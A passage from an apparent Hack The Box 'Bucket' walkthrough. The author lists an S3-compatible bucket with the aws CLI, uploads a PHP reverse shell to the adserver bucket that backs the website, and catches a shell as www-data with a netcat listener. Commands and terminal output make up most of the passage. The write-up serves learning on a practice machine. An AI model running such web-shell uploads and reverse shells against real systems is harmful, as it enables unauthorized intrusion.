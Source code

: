 I figured that perhaps I needed to upload to the `s3` subdomain, and then trigger the payload on the main URL. I considered a few things:
- somehow specifying two endpoints, one being the `bucket.htb` domain and the other being the `s3` subdomain
- overwriting one of the images on the adserver bucket with a malicious png
- trying to trigger the shell on the `bucket.htb` domain, by visiting `http://    bucket.htb/adserver/malicious-file`
- trying different methods of accessing the shell, such as `curl`, in case some strange browser behaviour was preventing it from being triggered

However, the answer turned out to be much simpler. I was just uploading to the wrong location on the bucket, revealed by simply listing its contents:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/uploads]
└─$ aws --endpoint-url http://s3.bucket.htb s3 ls
2020-12-18 19:16:03 adserver
┌──(mac㉿kali)-[~/Documents/HTB/bucket/uploads]
└─$ aws --endpoint-url http://s3.bucket.htb s3 ls adserver
                           PRE images/
2020-12-18 19:16:04       5344 index.html
```

The webserver is hosted out of the `adserver` directory on the bucket (which makes sense with hindsight). This essentially means files at `http://s3.bucket.htb/adserver/directory/file` are mapped to `http://bucket.htb/directory/file` on the main website.

Strangely, visiting `http://bucket.htb/images/malware.png` returns an error, which is what originally threw me off and led me down a rabbit hole.

![[Pasted image 20210428154235.png]]

It is possible that only files in the top level directory are accessible this way - but either way, we now know what to do!

#### Uploading a Web Shell

So, the command to upload a shell is simply:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/uploads]
└─$ aws s3 cp phprs.php s3://adserver/ --endpoint-url http://s3.bucket.htb 
upload: ./phprs.php to s3://adserver/phprs.php
```

Then we execute the shell by starting a netcat listener and visiting the URL:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/uploads]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.65] from (UNKNOWN) [10.10.10.212] 42766
Linux bucket 5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:58:18 up  4:38,  0 users,  load average: 0.12, 0.04, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
